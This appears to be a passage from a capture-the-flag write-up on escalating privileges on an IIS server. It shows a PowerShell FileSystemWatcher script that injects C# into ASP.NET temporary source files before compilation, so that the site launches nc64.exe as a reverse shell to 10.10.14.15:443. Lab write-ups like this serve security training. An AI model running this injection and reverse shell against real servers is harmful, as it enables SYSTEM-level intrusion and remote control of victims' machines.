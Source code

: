 ```
-a----        5/28/2021   1:15 PM            364 vircjsmd.out
-a----        5/28/2021   1:15 PM              0 vircjsmd.tmp
-a----        5/28/2021   1:14 PM           9243 zgj5iqtm.cmdline
-a----        5/28/2021   1:14 PM              0 zgj5iqtm.err
-a----        5/28/2021   1:15 PM            364 zgj5iqtm.out
-a----        5/28/2021   1:14 PM              0 zgj5iqtm.tmp
-a----        5/28/2021   1:15 PM            354 _layout.cshtml.639c3968.compiled
-a----        5/28/2021   1:15 PM            342 _viewstart.cshtml.65a2d1ee.compiled

```

## Timing Attack

### Strategy

There’s a timing attack here that ff5 found that’s really clever. I’ll delete the full directory for the site running as SYSTEM. The next time someone tries to access the site, IIS will stage the source code files into this directory and compile them. I’ll use a PowerShell script to watch for a file with a name matching `App_Web_*.0.cs`, and when that file exists, change it, adding in some additional code that run a binary. ff5’s script triggered `C:\programdata\q.exe`, but I’ll use `nc`. As long as those changes are made before the compilation uses the file, the binary will have the call of the exe in there, and that exe will be run on each request to the site.

### Script

The script I’m going to use (written by ff5 with modified payload) is:

```

$folder = 'C:\windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157'
$filter = 'App_Web_*.*.cs'
 
$fsw = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter = [IO.NotifyFilters]'FileName, LastWrite, LastAccess'} 
 
$global:trig = 0
$global:pwn = @"
Execute() {
    System.Diagnostics.Process process = new System.Diagnostics.Process();
    System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
    startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
    startInfo.FileName = "c:\\programdata\\nc64.exe";
    startInfo.Arguments = "10.10.14.15 443 -e powershell";
    process.StartInfo = startInfo;
    process.Start();

"@
 
Register-ObjectEvent $fsw Changed -SourceIdentifier FileChanged -Action { 
    $name = $Event.SourceEventArgs.Name 
    $changeType = $Event.SourceEventArgs.ChangeType 
    $timeStamp = $Event.TimeGenerated 
    Write-Host "The file '$name' was $changeType at $timeStamp" -fore white 
    if($name -like 'App_Web_*.0.cs' -AND $global:trig -eq 0) {
        Write-Host "Current trig: $global:trig by '$name'"
        $global:trig = 1;
        $src = get-content $name;
        $src = $src -replace 'Execute\(\) {$', $global:pwn
        $src = $src -replace 'using System;$', 'using System; using System.Diagnostics;'
        echo $src > $name
    }
} 
```